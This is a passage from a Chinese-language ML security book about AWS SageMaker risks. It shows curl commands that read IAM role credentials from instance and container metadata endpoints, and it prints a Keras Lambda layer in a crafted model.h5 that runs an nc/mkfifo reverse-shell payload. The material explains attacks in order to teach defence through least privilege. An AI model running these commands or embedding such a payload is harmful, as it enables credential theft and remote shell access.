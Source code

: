 根据这个 IAM 角色的设置方式，它可能附带有`AmazonSageMakerFullAccess` IAM 策略，该策略授予对几个 AWS 服务的访问权限。如果配置了一组限制较少的权限，可以获得 SageMaker Studio 或 Notebook 实例访问权限的攻击者可能会使用权限提升攻击来获得额外的权限。假设您计划为 10 名参与者举办一次 ML 研讨会。为了进行设置，首先为每个参与者创建一个 IAM 用户来访问一个专用的笔记本实例(或相应的 SageMaker Studio 域和用户集)，如下图所示:

![Figure 9.1 – Sample IAM configuration of an ML workshop environment

](img/B18638_09_001.jpg)

图 9.1–ML 车间环境的示例 IAM 配置

在这里，IAM 用户只有列出和访问可用笔记本实例的权限。但是，笔记本实例附加了 IAM 角色，这些角色可能具有额外的权限，攻击者可能会利用这些权限。也就是说，一旦攻击者(作为研讨会参与者)使用一个 IAM 用户访问研讨会期间可用的一个笔记本实例，攻击者可以在笔记本实例的终端内简单地打开一个`curl`命令:

```
curl http://169.254.169.254/latest/meta-data/identity-

credentials/ec2/security-credentials/ec2-instance
```

或者，如果您已经设置并使用 **SageMaker Studio** 来代替车间，攻击者可以运行以下命令并获得安全凭证:

```
curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```

一旦凭证被泄露，攻击者现在就有了各种关于如何使用这些凭证来执行特定攻击的选项。*吓人吧？*如果附加到笔记本实例的 IAM 角色具有附加到它的`AdministratorAccess`托管策略，会怎么样？这意味着攻击者将能够使用权限提升攻击获得完全的管理员访问权限！

为了减轻和管理与此类场景相关的风险，建议在配置附加到 AWS 资源的 IAM 角色时实践最小特权原则。这意味着我们需要更深入地研究附加到 IAM 角色的策略，并检查哪些权限可以删除或减少。这将限制潜在的损害，即使在特权提升攻击已经执行之后。除此之外，如果您要举办一次 ML 研讨会，您可能希望利用 **SageMaker Studio Lab** ，而不是在您的 AWS 帐户中创建笔记本实例供参与者使用。通过这种方法，研讨会参与者可以在不使用 AWS 帐户的情况下运行 ML 培训实验和部署。同时，使用 SageMaker Studio Lab 是免费的，非常适合研讨会！

注意

关于这个话题的更多信息，请查看[https://studiolab.sagemaker.aws/](https://studiolab.sagemaker.aws/)。

## 网络安全

在训练和部署 ML 模型时，ML 工程师可能会意外地使用包含攻击者准备的恶意代码的库或自定义容器映像。例如，攻击者可能会生成一个包含反向 shell 负载的`model.h5`文件:

```
import tensorflow

from tensorflow.keras.layers import Input, Lambda, Softmax

from tensorflow.keras.models import Model

from tensorflow.keras.optimizers import Adam

def custom_layer(tensor):

    PAYLOAD = 'rm /tmp/FCMHH; mkfifo /tmp/FCMHH; cat /tmp/FCMHH | /bin/sh -i 2>&1 | nc 127.0.0.1 14344 > /tmp/FCMHH'

    __import__('os').system(PAYLOAD)

    return tensor

input_layer = Input(shape=(10), name="input_layer")

lambda_layer = Lambda(

    custom_layer,   

    name="lambda_layer"

)(input_layer)

output_layer = Softmax(name="output_layer")(lambda_layer)
```